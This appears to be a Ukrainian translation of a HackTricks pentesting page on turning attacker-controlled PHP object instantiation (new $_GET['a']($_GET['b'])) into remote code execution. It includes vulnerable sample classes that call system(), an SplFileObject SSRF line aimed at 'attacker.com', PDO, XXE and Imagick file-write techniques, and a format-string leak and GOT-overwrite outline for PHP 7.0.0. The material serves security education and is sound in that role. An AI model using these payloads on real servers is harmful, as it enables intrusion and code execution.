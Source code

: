 # PHP - RCE зловживання створенням об'єктів: new $_GET["a"]($_GET["b"])

{{#include ../../../banners/hacktricks-training.md}}

Це, по суті, підсумок [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Вступ

Створення нових довільних об'єктів, таких як `new $_GET["a"]($_GET["a"])`, може призвести до Remote Code Execution (RCE), як детально описано в [**writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). Цей документ висвітлює різні стратегії досягнення RCE.

## RCE через користувацькі класи або автозавантаження

Синтаксис `new $a($b)` використовується для інстанціювання об'єкта, де **`$a`** представляє ім'я класу, а **`$b`** — перший аргумент, переданий конструктору. Ці змінні можуть надходити з введення користувача, наприклад GET/POST, де вони можуть бути рядками або масивами, або з JSON, де вони можуть мати інші типи.

Розглянемо фрагмент коду нижче:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
У цьому випадку встановлення `$a` в `App` або `App2`, а `$b` — у системну команду (наприклад, `uname -a`) призводить до виконання цієї команди.

**Функції автозавантаження** можуть бути використані, якщо такі класи безпосередньо недоступні. Ці функції автоматично завантажують класи з файлів за потреби і визначаються за допомогою `spl_autoload_register` або `__autoload`:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
Поведінка автозавантаження змінюється залежно від версії PHP, що дає різні можливості для RCE.

## RCE через вбудовані класи PHP

Якщо відсутні кастомні класи або автозавантажувачі, **вбудованих класів PHP** може бути достатньо для RCE. Кількість таких класів коливається від 100 до 200, залежно від версії PHP та встановлених розширень. Їх можна перелічити за допомогою `get_declared_classes()`.

Конструктори, які становлять інтерес, можна визначити через Reflection API, як показано в наведеному прикладі та за посиланням [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**RCE via specific methods includes:**

### **SSRF + Phar Deserialization**

Клас `SplFileObject` дозволяє SSRF через свій конструктор, дозволяючи підключатися до будь-якого URL:
```php
new SplFileObject('http://attacker.com/');
```
SSRF може призвести до атак десеріалізації в версіях PHP до 8.0 з використанням протоколу Phar.

### **Exploiting PDOs**

Конструктор класу PDO дозволяє підключення до баз даних через DSN-рядки, потенційно дозволяючи створення файлів або інші взаємодії:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

Версії PHP до 5.3.22 та 5.4.12 були вразливі до XXE-атак через конструктори `SoapClient` та `SimpleXMLElement`, залежно від версії libxml2.

## RCE via Imagick Extension

Під час аналізу залежностей проєкту було виявлено, що `Imagick` можна використати для виконання команд шляхом створення нових об'єктів. Це створює можливість експлуатації вразливостей.

### VID parser

Виявлено, що VID parser може записувати вміст у будь-який вказаний шлях у файловій системі. Це може призвести до розміщення `PHP shell` у веб-доступній директорії й досягнення Remote Code Execution (RCE).

#### VID Parser + File Upload

Зауважимо, що PHP тимчасово зберігає завантажені файли у `/tmp/phpXXXXXX`. VID parser в `Imagick`, використовуючи протокол `msl`, може обробляти wildcard'и у шляхах до файлів, що дозволяє перемістити тимчасовий файл у вибране місце. Цей метод дає додатковий шлях для довільного запису файлів у файлову систему.

### PHP Crash + Brute Force

Метод, описаний у [**original writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/), пов'язаний із завантаженням файлів, які викликають крах сервера до їх видалення. Брутфорсом імені тимчасового файлу `Imagick` стає можливим виконати довільний PHP-код. Однак цей підхід виявився ефективним лише в застарілій версії `ImageMagick`.

## Format-string in class-name resolution (PHP 7.0.0 Bug #71105)

Коли ім'я класу контролюється введенням користувача (наприклад, `new $_GET['model']()`), у PHP 7.0.0 під час рефакторингу `Throwable` з'явився тимчасовий баг, коли рушій помилково трактував ім'я класу як printf format string під час резолюції. Це дозволяє класичні printf-style примітиви всередині PHP: leaks з `%p`, контроль кількості записів через width specifiers, та довільні записи з `%n` по in-process вказівниках (наприклад, GOT entries у ELF-білдах).

Мінімальний патерн відтворення вразливості:
```php
<?php
$model = $_GET['model'];
$object = new $model();
```
Схема експлуатації (з посилання):
- Leak адреси через `%p` у імені класу, щоб знайти записувану ціль:
```bash
curl "http://host/index.php?model=%p-%p-%p"
# Fatal error includes resolved string with leaked pointers
```
- Використовуйте позиційні параметри та specifiers ширини для встановлення точної кількості байтів, потім `%n` щоб записати це значення в адресу, доступну на стеку, націлюючись на слот GOT (наприклад, `free`) щоб частково перезаписати його на `system`.
- Спровокуйте виклик захопленої функції, передавши ім'я класу, що містить shell pipe, щоб потрапити в `system("id")`.

Примітки:
- Працює тільки на PHP 7.0.0 (Bug [#71105](https://bugs.php.net/bug.php?id=71105)); виправлено у наступних релізах. Критичність: критична при наявності довільної інстанціації класів.
- Типові payloads поєднують багато `%p`, щоб пройти стек, потім `%.<width>d%<pos>$n`, щоб здійснити часткове перезаписування.

## Посилання

- https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/
- The Art of PHP: CTF‑born exploits and techniques (https://blog.orange.tw/posts/2025-08-the-art-of-php-ch/)

{{#include ../../../banners/hacktricks-training.md}}
